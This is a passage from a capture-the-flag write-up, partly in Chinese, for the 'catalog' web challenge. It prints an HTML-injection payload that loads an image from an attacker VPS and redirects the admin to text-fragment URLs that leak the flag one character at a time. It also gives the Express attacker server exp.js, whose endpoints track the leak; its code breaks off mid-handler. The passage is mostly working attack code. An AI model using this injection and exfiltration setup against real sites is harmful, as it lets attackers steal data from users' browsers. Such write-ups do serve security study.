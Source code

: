 ```
id=5&title=xxxxxx&content=xxxxxx&image=z"/><img src="http://vps:60033/fragment"><meta http-equiv="refresh"+content="0;URL='http://catalog.pwni.ng/issue.php?id=3#:~:text=T-,F,{,-}&text=T-,F,{,-0&text=T-,F,{,-1&text=T-,F,{,-2&text=T-,F,{,-3&text=T-,F,{,-4&text=T-,F,{,-5&text=T-,F,{,-6&text=T-,F,{,-7&text=T-,F,{,-8&text=T-,F,{,-9&text=T-,F,{,-A&text=T-,F,{,-B&text=T-,F,{,-D&text=T-,F,{,-E&text=T-,F,{,-F&text=T-,F,{,-G&text=T-,F,{,-H&text=T-,F,{,-I&text=T-,F,{,-J&text=T-,F,{,-K&text=T-,F,{,-L&text=T-,F,{,-M&text=T-,F,{,-N&text=T-,F,{,-O&text=T-,F,{,-P&text=T-,F,{,-Q&text=T-,F,{,-R&text=T-,F,{,-S&text=T-,F,{,-T&text=T-,F,{,-U&text=T-,F,{,-V&text=T-,F,{,-W&text=T-,F,{,-X&text=T-,F,{,-Y&text=T-,F,{,-Z&text=T-,F,{,-_'">
```



2. 在VPS上部署 @lbherrera_ 的 exp.js 以及 index.html 并运行 nodejs exp.js 需要安装 express 框架

exp.js

```
const express = require("express");
const app = express();

let status = false;
let unlock = false;
let match = false;

app.get("/status", (req, res) => {
    res.send(`${status}`);
});

app.get("/unlock", (req, res) => {
    unlock = true;
    res.send("unlock");
});

app.get("/firstload", (req, res) => {
    console.log("==> Admin opened challenge's page");
    res.send("firstload");
});

app.get("/", (req, res) => {
    console.log("==> Admin was redirected to attacker's page");
    res.sendFile("index.html", {
        root: __dirname
    });
});

app.get("/injection", (req, res) => {
    console.log("==> HTML injection was inserted into id=3 catalog");
    setTimeout(() => {
        if (match) console.log("==> There was a match");
        else console.log("==> There wasn't a match");
        match = false;
        unlock = false;
        status = false;
    }, 1000);
    res.send("injection");
});

app.get("/exfiltrated", (req, res) => {
    match = true;
    res.send("exfiltrated");
});

app.get("/fragment", (req, res) => {
    status = true;
    console.log("==> Admin was fragmented");
```